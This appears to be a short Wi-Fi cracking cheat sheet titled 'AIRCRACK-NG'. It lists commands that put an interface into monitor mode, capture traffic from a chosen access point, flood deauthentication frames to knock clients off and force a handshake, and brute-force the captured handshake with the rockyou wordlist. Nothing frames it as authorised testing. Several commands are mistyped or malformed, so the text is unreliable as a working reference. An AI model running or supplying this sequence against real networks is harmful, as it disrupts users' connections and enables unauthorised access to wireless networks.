 # AIRCRACK-NG
sudo airmon-ng start wlan0
sudo airodump wlan0
sudo airodump -ng -w darksagae -c (channel) --bssid(bssid) wlan0
sudo aireplay-ng -deauth 0 -a (bssid) wlan0
ls 
wireshark darksagae.cap &
aircrack-ng darksagae.cap -w /usr/share/wordlists/rockyou.txt
